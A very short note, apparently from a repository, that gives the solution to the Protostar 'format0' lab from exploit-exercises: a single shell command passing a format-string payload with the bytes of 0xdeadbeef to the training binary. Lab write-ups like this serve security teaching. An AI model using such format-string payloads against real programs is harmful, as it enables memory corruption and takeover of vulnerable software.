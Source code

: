 ## protostar-format0


## http://exploit-exercises.com/protostar/format0

```

./format0 %64s$(python -c  'print "\xef\xbe\xad\xde"')

```